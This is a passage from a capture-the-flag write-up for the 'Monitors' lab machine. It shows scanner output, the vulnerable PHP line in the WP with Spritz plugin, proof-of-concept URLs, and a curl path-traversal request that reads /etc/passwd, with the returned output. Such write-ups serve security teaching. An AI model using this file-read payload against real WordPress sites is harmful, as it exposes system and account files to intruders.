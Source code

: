      |     References:
     |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
     |      - https://www.exploit-db.com/exploits/44544/
     |
     | Version: 4.2.4 (80% confidence)
     | Found By: Readme - Stable Tag (Aggressive Detection)
     |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.tx
    

Unauthenticated file inclusion is definitely something I’ll want to look into.

## Shell as www-data

### File Read

#### POC

The [exploitDB link](https://www.exploit-db.com/exploits/44544) shows that the
following code is present in the plugin:

    
    
    if(isset($_GET['url'])){
    $content=file_get_contents($_GET['url']);
    

It also gives two examples as proof of concepts:

    
    
    /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
    /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
    

Starting with the first one, I’ll confirm I can grab `/etc/passwd` from
Monitors:

    
    
    oxdf@parrot$ curl -s http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...[snip]...
    marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
    Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
    mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false
    

marcus and root look like the only users with shells.

There’s not a ton I can do with the second remote include, as PHP is calling
`file_get_contents`, so even if I pass in PHP code, it won’t be executed. If
this were a Windows server, I could try to get something over SMB and collect
the NetNTLMv2 challenge.
